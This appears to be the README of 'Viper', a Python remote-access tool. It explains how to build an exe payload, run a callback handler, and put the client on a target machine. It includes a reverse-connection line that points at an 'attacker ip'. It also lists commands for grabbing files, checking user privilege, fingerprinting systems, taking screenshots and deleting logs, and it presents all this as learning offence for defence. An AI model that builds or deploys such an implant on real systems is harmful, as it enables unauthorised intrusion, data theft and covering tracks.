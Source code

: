 
Copyright © 2017, [Jinverar owner of black signals](https://github.com/jinverar).
//=> Copyright (c) 2017 jinverar

***VIPER***

"""
This is viper!

Viper is designed in order to retrieve compromised files, processes, and services in case you have to reach out and grab information quickly. 
The viper can also be used for testing exploitation and enumeration for the purpose of learning offensive for defensive actions.

Viper also has team server capabilities *I am still working out bugs but it works great currently with command line

This program was created as a basic function to reach out and grab things fast! Powered by twisted python. 

I have recently added a twisted webserver and chat server for teamdevops

"""

viper has been tested on kali 2.0

***The installer.sh will do this for you***

usage
chmod +x installer.sh
./installer.sh
The installer will back up your ~/.bashrc file and This should do the tricks and get you up and running. 
You will need to verify the installer adds the python path to the end of the ~/.bashrc

Quick help
echo export PYTHONPATH="" >> ~/.bashrc
source ~/.bashrc

***libraries installed and current requirements check install.sh for mods***
python-twisted +16.6;
PyCrypto;
pyOpenSSl;
Zope interface;
python 2.7;
python-2.7.13.msi;
pyinstaller-3.1.1;
future-0.16.0;
wine;
winetricks;

Usage:

***to start the viper console:***

Navigate into the payloads and change the ip address and port number inside the client

$$> chmod +x start-teamserver.sh
$$> ./start-teamserver.sh

***usage:***

start the handler first and then start the client on the target machine

viper main commands:

[*] handler ========= > "starts the viper server and waits for a call back" 

[*] buildfang ========= > "creates a basic exe file from viperclient.py and stores it inside payloads"; 

[*] chatserver ========= > will start your chat server on port 8123. You will have to open a new terminal to connect

[*] stopchat ========= > will tear down the chat server when needed

[*] startweb ========= > starts the webserver

[*] stopweb ========= > stops the webserver


***build fang pre-instructions***

Inside viper client modify these two lines with your local ip address

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(('address you want to connect back to, attacker ip', 8081))


***viper connection commands:***

use these once you get the call back from the client. first you will need to enter in the local host and port number that you assigned to the client before deploying. 

[*] grab*<filename> ========= > grabs the file and saves it to the local desktop as .txt";

[*] getenv       ========= >  prints the system information";

[*] getuid       ========= > Get the user level access of the shell";

[*] SystemInfo   ========= > Get Fingerprint of the system"; todo

[*] capture      ========= > take images of the host machine "; todo

[*] Cover        ========= > Delete all traces of logs"; todo


Contributing

    Fork it!
    Create your feature branch: git checkout -b my-new-feature
    Commit your changes: git commit -am 'Add some feature'
    Push to the branch: git push origin my-new-feature
    Submit a Pull Request
